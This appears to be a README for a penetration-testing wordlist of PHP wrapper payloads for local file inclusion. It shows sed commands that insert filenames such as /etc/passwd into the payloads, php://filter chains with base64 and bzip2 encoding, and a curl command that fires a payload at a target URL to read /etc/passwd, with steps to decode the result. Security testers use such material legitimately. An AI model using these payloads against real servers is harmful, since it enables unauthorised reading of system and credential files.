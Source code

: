 # LFI PHP wrapper 
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.

```shell
$ sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
$ sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`
   
> For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.


## Examples of working payload
1. ***bzip2 + base64 encode***
```php
php://filter/bzip2.compress|convert.base64-encode/resource=*
php://filter/read=bzip2.compress|convert.base64-encode/resource=*
```
- This will output a base64-encoded value that gives a bzip2 compressed data when decoded

Eg.
```shell
$ curl https://[target].com/page?=php://filter/bzip2.compress|convert.base64-encode/resource=/etc/passwd > output.txt

# extract base64 string
$ cat output.txt

$ echo [base64 string] | base64 -d | bzip2 -d
...
```
